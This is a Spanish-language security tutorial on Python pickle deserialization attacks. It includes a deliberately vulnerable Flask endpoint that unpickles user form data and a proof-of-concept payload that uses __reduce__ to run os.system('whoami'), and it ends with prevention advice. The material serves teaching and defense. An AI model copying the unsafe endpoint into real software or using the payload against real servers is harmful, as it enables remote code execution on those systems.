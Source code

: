

# Ataque de Deserialización Pickle en Python (DES-Pickle)

El Ataque de Deserialización Pickle (DES-Pickle) es una vulnerabilidad que ocurre cuando se deserializan datos no confiables utilizando el módulo `pickle` de Python. Este tipo de ataque puede permitir a un atacante ejecutar código malicioso de forma remota, comprometiendo la seguridad del sistema.

## Descripción del Ataque

El módulo `pickle` de Python se utiliza para serializar y deserializar objetos Python. Sin embargo, si se utiliza de manera incorrecta, puede ser vulnerable a ataques de deserialización, donde un atacante podría manipular los datos serializados para ejecutar código malicioso al deserializarlos.

## Ejemplo de Código Vulnerable

Consideremos el siguiente código Flask, que muestra una vulnerabilidad de deserialización Pickle:

```python
import pickle
from flask import Flask, request, render_template

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    user = {'name': 'ZeroCool'}
    with open('filename.pickle', 'wb') as handle:
        pickle.dump(user, handle, protocol=pickle.HIGHEST_PROTOCOL)
    with open('filename.pickle', 'rb') as handle:
        a = pickle.load(handle)
    return render_template("index.html", content = a)

@app.route("/sync", methods=['POST'])
def deserialization():
    with open("pickle.hacker", "wb+") as file:
        att = request.form['data_obj']
        attack = bytes.fromhex(att)
        file.write(attack)
        file.close()
    with open('pickle.hacker', 'rb') as handle:
        a = pickle.load(handle)
        print(attack)
        return render_template("index.html", content = a)

@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

En este código, se utilizan las funciones `pickle.dump()` y `pickle.load()` para serializar y deserializar datos. La vulnerabilidad radica en que los datos de entrada en el formulario web `data_obj` se deserializan sin una validación adecuada, lo que podría permitir que un atacante inyecte código malicioso y lo ejecute en el servidor.

## Exploit

A continuación, se muestra un ejemplo de exploit que aprovecha esta vulnerabilidad para ejecutar el comando `whoami` en el servidor:

```python
import pickle
import os
import binascii 

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('whoami',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

Este exploit crea un objeto `RunBinSh` que, al ser deserializado por `pickle`, ejecutará el comando `whoami` en el servidor. El objeto se serializa utilizando `pickle.dumps()`, y luego se imprime en formato hexadecimal para ser enviado al servidor vulnerable.

## Prevención

Para prevenir el Ataque de Deserialización Pickle, es crucial implementar medidas de seguridad adecuadas:

- **Validación de Entrada:** Validar y sanitizar todos los datos de entrada antes de deserializarlos para evitar la ejecución de código malicioso.
  
- **Utilizar Funciones Seguras:** Evitar el uso de `pickle` para deserializar datos no confiables. En su lugar, considere el uso de formatos de serialización más seguros, como JSON.

- **Limitar Privilegios:** Ejecutar la aplicación con los privilegios mínimos necesarios para limitar el impacto en caso de una explotación exitosa.

Al seguir estas mejores prácticas, los desarrolladores pueden mitigar el riesgo de deserialización Pickle maliciosa y proteger sus aplicaciones contra este tipo de ataques.